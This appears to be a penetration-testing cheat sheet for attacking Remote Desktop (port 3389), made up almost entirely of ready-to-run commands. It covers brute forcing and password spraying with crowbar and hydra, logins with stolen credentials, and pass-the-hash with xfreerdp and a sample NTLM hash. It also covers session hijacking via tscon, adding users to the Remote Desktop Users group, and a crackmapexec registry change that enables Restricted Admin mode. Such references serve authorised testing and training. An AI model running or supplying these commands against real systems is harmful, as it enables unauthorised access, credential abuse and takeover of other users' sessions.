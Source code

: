 
## RDP - 3389

### Brute force

```
crowbar -b rdp -s <IP>/CIDR -u <USER> -C <PASSWORDS_LIST>
crowbar -b rdp -s <IP>/CIDR -U <USERS_LIST> -C <PASSWORDS_LIST>

hydra -f -L <USERS_LIST> -P <PASSWORDS_LIST> rdp://<IP> -u -vV
```

### Connect with known credentials / hash

```
rdesktop -u <USERNAME> <IP>
rdesktop -d <DOMAIN> -u <USERNAME> -p <PASSWORD> <IP>

xfreerdp /u:[DOMAIN\]<USERNAME> /p:<PASSWORD> /v:<IP>
xfreerdp /u:[DOMAIN\]<USERNAME> /pth:<HASH> /v:<IP>
```

### Session stealing

#### Get openned sessions

```
query user
```

#### Access to the selected

```
tscon <ID> /dest:<SESSIONNAME>
```

### Adding user to RDP group (Windows)

```
net localgroup "Remote Desktop Users" <USER> /add
```

### Attacking RDP

| **Command**                                                                                                                                                    | **Description**                                                                 |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| `crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'`                                                                                           | Password spraying against the RDP service.                                      |
| `hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp`                                                                                                    | Brute-forcing the RDP service.                                                  |
| `rdesktop -u admin -p password123 192.168.2.143`                                                                                                               | Connect to the RDP service using `rdesktop` in Linux.                           |
| `tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}`                                                                                                         | Impersonate a user without its password. SESSION HIJACKING                      |
| `net start sessionhijack`                                                                                                                                      | Execute the RDP session hijack.                                                 |
| `crackmapexec smb IP -u USER -H NTLMHASH --local-auth -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'` | Add DisableRestrictedAdmin reg key via cme                                      |
| `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`                                                           | Enable "Restricted Admin Mode" on the target Windows host.                      |
| `xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA`                                                                                     | Use the Pass-The-Hash technique to login on the target host without a password. |

---